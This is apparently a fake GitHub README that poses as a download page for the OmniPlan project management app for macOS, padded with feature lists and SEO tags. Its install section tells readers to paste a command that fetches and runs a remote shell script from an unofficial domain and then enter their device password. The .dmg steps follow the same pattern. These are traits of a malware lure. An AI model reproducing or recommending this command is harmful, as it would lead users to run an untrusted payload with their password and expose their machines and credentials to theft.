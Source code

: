 # 📊 OmniPlan — Professional Project Management Software for macOS

**OmniPlan** is a comprehensive project management app designed specifically for macOS. It helps professionals plan, track, and manage complex projects with intuitive tools, seamless collaboration, and deep macOS integration. Perfect for project managers, teams, and anyone who wants clear control over their workflows.

---

## ✅ Download OmniPlan for macOS  
[![Download OmniPlan](https://img.shields.io/badge/Download-OmniPlan-blueviolet)](https://omniplan-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is OmniPlan?

OmniPlan is a powerful project planning and scheduling app from The Omni Group. It allows users to create detailed project plans, assign resources, track progress, and identify bottlenecks. With features like Gantt charts, critical path visualization, and collaboration tools, OmniPlan makes managing projects more efficient and transparent.

---

## ✨ Features

- 📅 Visual Gantt charts and project timelines  
- 👥 Resource management and task assignments  
- 🔄 Real-time collaboration and syncing across devices  
- 📈 Critical path analysis and project forecasting  
- ⏱️ Time tracking and milestone tracking  
- 🖥️ Native macOS and iOS support with Apple Silicon optimization  
- 🔔 Notifications and alerts for deadlines and changes  
- 🛠️ Integration with Calendar, Reminders, and other macOS apps  
- 📊 Export to PDF, CSV, Microsoft Project formats  

---

## 💡 Why Use OmniPlan?

- ✅ Gain clear visibility into complex projects and timelines  
- 🤝 Collaborate efficiently with team members and stakeholders  
- 🗂️ Manage resources and workloads smartly  
- 📈 Predict and resolve project risks before they impact delivery  
- 🎯 Ideal for project managers, freelancers, and teams of all sizes  

---

[![Download OmniPlan](https://img.shields.io/badge/Download-OmniPlan-blueviolet)](https://omniplan-mac-download.github.io/.github)

---

## 🖼️ Preview

![OmniPlan Screenshot 1](https://www.omnigroup.com/assets/img/app/plan-4/op-mac-header.png)  
![OmniPlan Screenshot 2](https://support.omnigroup.com/doc-assets/OmniPlan-Mac/OmniPlan-Mac-v3.0.0.1/en/EPUB/art/op3mac_ch02_02_taskview.png)

---

## 📌 Tags

omniplan, omniplan software, omniplan 4, omniplan4, omniplan for mac, omniplan project management,  
omniplan for windows, omniplan pricing, omniplan 3, omniplan online, omniplan web, omniplan download,  
omni plan 4, omnifocus omniplan, omniplan 2, omniplan 3 download, omniplan app, omniplan cost,  
omniplan discount, omniplan ios, omniplan ipad, omniplan training, omniplan mac, omniplan mac download
